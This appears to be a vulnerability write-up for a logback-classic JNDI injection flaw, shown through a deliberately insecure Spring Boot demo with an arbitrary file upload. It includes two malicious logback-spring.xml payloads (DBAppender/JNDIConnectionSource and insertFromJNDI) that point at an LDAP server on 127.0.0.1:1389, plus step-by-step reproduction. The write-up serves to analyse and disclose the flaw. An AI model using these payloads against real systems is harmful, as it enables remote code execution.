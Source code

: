 1. ##  Affected version

   logback-classic <=1.2.7

   ##  Environment

    SpringBoot 2.6.1 

    JDK8u111(Please note the available versions of JNDI)

   ##  Project address

   https://github.com/cn-panda/logbackRceDemo

   The project is a simple vulnerability demo environment  in springboot, The key function is **upload**:

   ```java
   public String upload(@RequestParam("file") MultipartFile file) {  
       if (file.isEmpty()) {  
           return "Upload failed, please select a file！！";  
       }  
     
       String fileName = file.getOriginalFilename();  
       String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
       System.out.println(filePath);  
       File dest = new File(filePath,fileName);  
       try {  
           file.transferTo(dest);  
           LOGGER.info("Upload succeeded!!");  
           return "Upload succeeded!!";  
       } catch (IOException e) {  
           LOGGER.error(e.toString(), e);  
       }  
       return "Upload failed!!";  
   }
   ```

   The main function of this method is to upload files.

   The configuration file of logback in the project is as follows:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/1.png?raw=true)

   The key point is the `scan` attribute, which is used by logback to periodically scan the configuration file for changes.

   If the configuration file is detected to change, it will update and load the configuration file in real time.

   In this project, I deliberately wrote a vulnerability environment with arbitrary file uploads, and then used the `scan` attribute in the loghack configuration file to cooperate with the logback vulnerability to implement RCE

   # Vulnerability analysis

   ## JNDIConnectionSource

   In logback, it is also similar to the Appender of JDBCAppender in log4j1.x —— that is **DBAppender**

   There is an interface called `ConnectionSource` in DBAppender.

   This interface provides a pluggable way to obtain a JDBC connection using the logback class of `java.sql.Connection`

   There are currently three implementation classes: `DriverManagerConnectionSource`, `DataSourceConnectionSource` and `JNDIConnectionSource`.

   Each of these three implementation classes can be used to achieve RCE.

   But unlike the other two implementation classes, the way `JNDIConnectionSource` implements RCE is more convenient, because it can implement RCE without relying on other component-dependent gadgets, and only rely on the mechanism provided by the application (JNDI), but ` DriverManagerConnectionSource` and `DataSourceConnectionSource` must rely on JDBC deserialization vulnerabilities to be able to implement RCE. The restrictions are relatively large, so I will not demonstrate here.

   **JNDIConnectionSource** is logback's own method, as you can see from the name, it obtains `javax.sql.DataSource` through JNDI, and then obtains `java.sql.Connection instance`

   In fact, you can find out by observing the code of the `getConnection` method in `JNDIConnectionSource.java`:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/2.png?raw=true)

   If dataSource is empty, then let `dataSource = lookupDataSource();`

   Then trigger `lookup` in **lookupDataSource()**:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/3.png?raw=true)

   #### Vulnerability recurrence

   First download the reproduced source code, and then run the main function of the `RceDemoApplication` project:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/4.png?raw=true)

   Then open the browser and type in the address bar: `http://localhost:8080`, you can visit the project homepage

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/5.png?raw=true)

   This means that your vulnerability environment has been built.

   Then create a configuration file of `logback-spring.xml` locally, the content of the file is as follows:

   ```
<configuration scan="true" scanPeriod="10 seconds" debug="true">  
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
       　　　　　 <encoder>  
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
       　　　　　 </encoder>  
       　　　</appender>  
       <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
           <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
               <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
           </connectionSource>  
       </appender>  
     
       　　　<root level="DEBUG">  
       　　　　　　<appender-ref ref="STDOUT" />  
       　　　</root>  
   </configuration>
   ```
   
   Then visit `http://localhost:8080/upload.html`, select the file and click the upload button, use BurpSuite to capture the package, you can see that the file is uploaded successfully:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/6.png?raw=true)

   After waiting ten seconds, RCE can be executed successfully

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/7.png?raw=true)

   ## insertFromJNDI

   In addition to `JNDIConnectionSource`, there is actually another configuration that can implement JNDI injection——**insertFromJNDI**

   `<insertFromJNDI>` is the configuration tag of logback, which is used to set the range of attributes. It supports obtaining attribute values through JNDI. Similarly, if you modify the content of the `<insertFromJNDI>` tag, you can also achieve JNDI injection

   When the `<insertFromJNDI>` tag is used, it means that the `begin` method in the `InsertFromJNDIAction.java` file will be called, and the `JNDIUtil.lookup` method will be used , thereby triggering the vulnerability:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/8.png?raw=true)

   ### Vulnerability recurrence

   The reproduction steps are roughly the same as in #JNDIConnectionSource, except that the payload used in the uploaded file needs to be changed, as follows:

   ```
<configuration scan="true" scanPeriod="10 seconds" debug="true">
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
       　　　　　 <encoder>
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
       　　　　　 </encoder>
       　　　</appender>
       <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  
   
   　　　<root level="DEBUG">
       　　　　　　<appender-ref ref="STDOUT" />
       　　　</root>
   </configuration>
   ```
   
   Upload the configuration file:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/9.png?raw=true)

   Similarly, after waiting for 10 seconds, RCE can be triggered:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/10.png?raw=true)

   In fact, in addition to these two, the `begin` in `JMXConfiguratorAction` can also be used for malicious purposes.

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/11.png?raw=true)

   # Summarize

   In general, the triggering method of this vulnerability is still relatively difficult, unless the following conditions can be met:

   1. The configuration file of logback can be modified or overwritten
2. Able to make the modified configuration file take effect
